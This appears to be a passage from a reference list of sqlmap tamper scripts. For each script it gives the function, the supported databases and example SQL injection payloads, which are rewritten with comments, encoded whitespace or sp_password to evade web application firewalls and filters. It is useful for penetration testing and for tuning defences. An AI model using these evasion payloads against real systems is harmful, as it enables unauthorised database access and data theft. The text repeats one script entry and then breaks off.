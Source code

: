 Function: 1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’

Platform: All

    example

1 AND 1=1 ==> 1 AND 1=1 and ‘0having’=’0having’
sp_password.py

Function: Space ==> sp_password

Platform: Mssql

    example

1 AND 9227=9227 — ==> 1 AND 9227=9227 — sp_password
space2comment.py

Function: Space ==> /**/

Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0

    example

SELECT id FROM users ==> SELECT/**/id/**/FROM/**/users
space2dash.py

Function: Space==> -nVNaVoPYeva% 0A

Platform:MSSQL、SQLite

    example

1 AND 9227=9227 ==> 1 — nVNaVoPYeva%0AAND — ngNvzqu%0A9227=9227
space2hash.py

Function: Space ==> %23nVNaVoPYeva%0A

Platform: MySQL 4.0, 5.0

    example

1 AND 9227=9227 ==> 1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227
space2morehash.py

Function: Space ==> %23ngNvzqu%0A

Platform: MySQL 5.1.41

    example

1 AND 9227=9227 ==> 1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227
space2mssqlblank.py

Function: Space ==> %0E

Platform: Mssql 2000,2005

    example

SELECT id FROM users ==> SELECT%0Eid%0DFROM%07users
space2mssqlblank.py

Function: Space ==> %23%0A
